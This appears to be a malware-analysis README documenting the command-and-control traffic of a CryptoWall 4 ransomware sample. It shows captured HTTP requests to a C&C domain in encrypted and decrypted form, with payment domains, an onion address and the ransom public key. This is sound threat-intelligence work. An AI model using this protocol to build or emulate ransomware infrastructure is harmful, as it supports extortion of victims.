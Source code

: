 # CryptoWall4 C&C

Reference sample: 0f40c359d5dcc597ef5d2313aeed686667b0e14f600b45197723e3b09ba50a62 [[VirusTotal]](https://www.virustotal.com/en/file/0f40c359d5dcc597ef5d2313aeed686667b0e14f600b45197723e3b09ba50a62/analysis/) [[Payload Security]](https://www.hybrid-analysis.com/sample/0f40c359d5dcc597ef5d2313aeed686667b0e14f600b45197723e3b09ba50a62?environmentId=1)

# Sample Communication

## 1. Client Registration (Encrypted)
```
POST /Zoe2aN.php?g=0hejz4z87l74 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: Close
Content-Length: 140
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: giosposa.com
Cache-Control: no-cache

l=6d6b33347264373962376338627163531489d08691ba8d567d8621ff76f3d0d254df5f4e218a5ada0504b3a3949205850563b807ef5ab779a108b2ab8ca7b6773ab9552653

HTTP/1.1 200 OK
Date: Thu, 21 Jan 2016 19:03:19 GMT
Server: Apache
X-Powered-By: PHP/5.4.45
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

5314c08688d9b7
```

## 1. Client Registration (Decrypted)
```
Request: {1|crypt13001|1ADA39F9017BC8BE8633FAC3CA0D5A43|5|1|2|}
Response: {155|1}
```

## 2. Request for Public Key (Encrypted)
```
POST /Zoe2aN.php?b=dp7tm9rl3z09 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: Close
Content-Length: 128
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: giosposa.com
Cache-Control: no-cache

z=647571383032373074706a3771698a5e1581a9341bf0f0d8cebb252aec8f7338e321aa3c140f55087f3db92351efcf999ce70d063065672d05f86193f9b940

HTTP/1.1 200 OK
Date: Thu, 21 Jan 2016 19:04:06 GMT
Server: Apache
X-Powered-By: PHP/5.4.45
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

8a581d86af3708b0bdd889f17a63adfc4e10a575843245550864536b920907a589d9a6d12f4c074b270849cd3ad3fcfb49fe0cc558b9d45616c741e676081a745778afc9f1c4d03019790ef961a518b99dbb557dfc9d964759599724cb224258db547d69486a5c093dcedc5d96d4615619e14c6caa97826219aeb36e6cffcda2a33ccb49b6b88712459a68e4fc69ba9ab9fade8b329fc668d38d471344cf1f3cf5e828647daac31664445ee47145f9e2aa7ff0158ee19896fd8305f6a491c069d8e960e3990d0c8439dd331460022f3f34479dd16df1ad0e7a.......truncated........c0eebbaf1e84281e9fd1aa2de687f23351d9bb71feee2e0e4a61183f571530a08808e68749909b68622945d39f8331e5f03a6e795d097cb5b65b516dabd3b0463f29ee11ad00855c7e78099002d811855f56c4c27c871dc
```

## 2. Request for Public Key (Decrypted)
```
Request: {7|crypt13001|1ADA39F9017BC8BE8633FAC3CA0D5A43|1}
Response: {1tdtzc4|3wzn5p2yiumh7akj.onion|us|waytopaytosystem.com~malkintop100.com~belladonnamonna.com~hiltonpaytoo.com|-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw/VdY0UONl2uSs/JEkmC
fU9WaJVgwWJAqIznYUaHkr+oE3jBvhwzRzT8+CxgUWQY1P1NLuMEKopaRHLA0XI/
DYla8gqV2UZ8zxI4t90ZQeaMtKlEndWUc7w/rYJwoLjeGhM1U5ObpSwZzcs4j0ZV
k16BNYJokAN7nVCP882M4G3jCJfCdcOaM8IJkk0FuQU5aJYLWwk1M88+bBKqqNb8
w6GZekM0P1xiNq1sltU2vrZyG43xj6d6TK84dsmYBLRuSi9LJrdF3P6ASxFEkskM
GZ5di0/MyLw0V30U7QzHAtp7Ri8BdQ4nM3c6tSudYHPuwGJDtWMut0tiimxR+O2f
cQIDAQAB
-----END PUBLIC KEY-----|iVBORw0KGgoAAAANSUhEUgAAA68AAALKCAIAAABStPDjAAAgAElEQVR4nOy9PY/jRtb3ffxgQyZ2zycwNbISQQBxD4x1QMCAsbwg3KtEYDAR3TFHSWMTouOGEqMTtuIZRhMIAgzNBcFcGDCgwAvDNwgISmRZ3E8w8iT8AE/AtyJZxRdJ/TKj/w8dqMmqU6.......truncated........AAB3kYYBAADgri/mP378/P5R7QAAAADeH2PDAAAAcBdpGAAAAO4iDQMAAMBd/wINQtkAwZ8J/AAAAABJRU5ErkJggg==}
```

## 3. Post-Encryption Check-In - 1 (Encrypted)
```
POST /Zoe2aN.php?c=e6zub3y89v2bwh HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: Close
Content-Length: 124
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: giosposa.com
Cache-Control: no-cache

h=30356938303961637a7178347277987828c2917cde4e439b394dfb0761817197ceb538e8024b2cd9ab03ff08531d1faa0a08691ce8b90dc007bcc431b6

HTTP/1.1 200 OK
Date: Thu, 21 Jan 2016 19:04:33 GMT
Server: Apache
X-Powered-By: PHP/5.4.45
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

987967959e
```

## 3. Post-Encryption Check-In - 1 (Decrypted)
```
Request: {3|crypt13001|1ADA39F9017BC8BE8633FAC3CA0D5A43}
Response: {234}
```

## 4. Post-Encryption Check-In - 2 (Encrypted)
```
POST /Zoe2aN.php?t=5suo0ep2d0d2np HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: Close
Content-Length: 113
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: giosposa.com
Cache-Control: no-cache

p=32786830689caf9a157c762a555995606ada94c483f731e1a38b062043f9fa018ca97df6f0805ca0982f88d2ec617857c6090c58ef27b15

HTTP/1.1 200 OK
Date: Thu, 21 Jan 2016 19:04:38 GMT
Server: Apache
X-Powered-By: PHP/5.4.45
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

89ccf8
```

## 4. Post-Encryption Check-In - 2 (Decrypted)
```
Request: {7|crypt13001|1ADA39F9017BC8BE8633FAC3CA0D5A43|2|1}
Response: {1}
```
